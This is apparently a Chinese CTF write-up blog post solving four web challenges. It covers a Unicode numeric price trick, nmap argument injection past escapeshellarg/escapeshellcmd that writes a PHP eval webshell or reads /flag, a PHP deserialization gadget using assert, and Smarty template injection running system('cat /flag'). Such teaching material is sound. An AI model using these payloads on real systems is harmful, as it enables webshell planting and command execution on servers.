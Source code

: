## [ASIS 2019]Unicorn shop

[[ASIS 2019]Unicorn shop](https://blog.csdn.net/qq_41891666/article/details/107224411)

看了它的源码，主要是这个函数

```
unicodedata.numeric(price)
```

```python
import unicodedata

a = unicodedata.numeric('百')

print(a)
```

结果

```
100.0
```

> ##### 功能
>
> 把一个表示数字的字符串转换为浮点数返回的函数
>  注意: Unicode字符(chr),不是字符串

在这个网站上https://www.compart.com/en/unicode/

找到unicode字符ↈ，这个字符就是浮点数100000.0

经过测试，发现只有第四个商品能买

![image-20240315161711978](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240315161711978.png)

得到flag

另外，还可以用中文的万字，亿字等

```
万，亿
```

## [网鼎杯 2020 朱雀组]Nmap

> nmap的一些参数
>
> -iL 读取文件内容，以文件内容作为搜索目标
> -o 输出到文件
> -oN 标准保存
> -oX XML保存
> -oG Grep保存
> -oA 保存到所有格式

可以利用-oN写木马，也可以用-iL读取flag

方法一：

payload

```
' <? eval($_POST[1]); -oN 1.phtml '
```

```
<? eval($_POST[1]); -oN 1.phtml '
```

源码里有这两个函数

```
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
```

> **escapeshellcmd()** 对字符串中可能会欺骗     shell 命令执行任意命令的字符进行转义。  
>
>  反斜线（\）会在以下字符之前插入：`&#;`|`*?~<>^()[]{}$\`、`\x0A`    和 `\xFF`。 `'` 和 `"`    仅在不配对儿的时候被转义。在 Windows 平台上，所有这些字符以及 `%`    和 `!` 字符前面都有一个插入符号（`^`）。 
>
> **escapeshellarg()** 用转义符转义所有单引号，然后用单引号包裹，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。

方法二：

payload

```
' -iL /flag -oN 1.txt '
```

## [NPUCTF2020]ReadlezPHP

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]); 
```



payload

```php
<?php
class HelloPhp
{
    public $a;
    public $b;

    public function __construct()
    {
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
}
$c = new HelloPhp();

echo serialize($c);
```

flag在phpinfo里

他这里过滤了一大堆函数，还能用assert

![image-20240315174432266](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240315174432266.png)

## [CISCN2019 华东南赛区]Web11

题目提示xff头

那就修改一下xff头

```
X-Forwarded-For: 127.0.0.1
```

发现ip变成了127.0.0.1

![image-20240315181508664](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240315181508664.png)

猜测可能有ssti漏洞

```
{{1*1}}
```

发现成功回显

根据报错，发现是smarty模板

![image-20240315181809785](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240315181809785.png)

查看版本

```
{$smarty.version}
```

3.1.30

```
{if system('cat /flag')}{/if}
```

得到flag

